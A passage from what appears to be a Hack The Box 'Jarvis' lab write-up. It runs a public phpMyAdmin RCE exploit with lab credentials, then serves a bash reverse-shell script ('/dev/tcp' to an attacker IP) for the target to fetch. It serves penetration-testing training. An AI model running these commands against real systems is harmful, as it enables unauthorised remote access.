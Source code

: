 I can just reuse the found credential to sign-in.

![](attachments/jarvis_7.png)

I observed that the running version of PHP is 4.8.0.
I found one RCE exploit from [exploit-db](https://www.exploit-db.com/exploits/50457).

Using this exploit, I can simply run linux commands on the target server.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I can simply upload reverse shell payload to open reverse shell.
Let's create and upload payload first.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ cat rshell.sh                                        
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.4/9000 0>&1



┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.143 - - [14/Apr/2025 09:25:57] "GET /rshell.sh HTTP/1.1" 200 -
10.10.10.143 - - [14/Apr/2025 09:25:57] "GET /rshell.sh HTTP/1.1" 200 -
```
